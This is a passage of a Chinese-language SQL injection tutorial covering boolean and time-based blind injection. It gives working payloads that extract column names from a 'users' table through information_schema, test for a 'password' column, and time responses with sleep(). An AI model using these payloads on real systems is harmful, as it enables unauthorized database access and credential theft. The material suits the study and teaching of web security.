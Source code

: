 ```
...以此类推

1' and (select length(column_name)=7 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

// 得出结论：表users第一个字段的长度为7
```
```
遍历判断第一个字段的字符，以第一个字段的第一个字符为例

1' and (select ascii(substr(column_name,1,1))>100 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

1' and (select ascii(substr(column_name,1,1))>120 from information_schema.columns where table_name = 'users' limit 0,1); #
-- MISSING

...以此类推

1' and (select ascii(substr(column_name,1,1))=117 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

// 得出结论：表users的第一个字段的第一个字符的ascii码为117，对应的字符为'u'

...用同样的方法遍历所有的字符

// 得出表users的第一个字段为：'user_id'
```
```
字段名的另一个猜测方式
直接判断某个字段是否存在

1' and (select count(*)=1 from information_schema.columns where table_schema=database() and table_name='users' and column_name='password'); #
-- exists

// 结论证明字段中存在'password'

...不停的更换column_name='???' 的值，根据返回结果判断所需字段名
```

#### 时间盲注
- 使用场景：
  - 界面返回值只有一种True，无论输入任何值，返回情况都会按正常的来处理。加入特定的时间函数，通过查看WEB页面返回的时间差来判断注入的语句是否正确

- 方法：
  - 对于if(判断条件,sleep(n),1)函数而言，若判断条件为真，则执行sleep(n)函数，达到在正常响应时间的基础上再延迟响应时间n秒的效果；若判断条件为假，则返回设置的1，此时不会执行sleep(n)函数
  ```
  1' and if(length(database())=4,sleep(5),1);#\
  // 5s后响应，由此得出：当前数据库名的长度为4
  ```
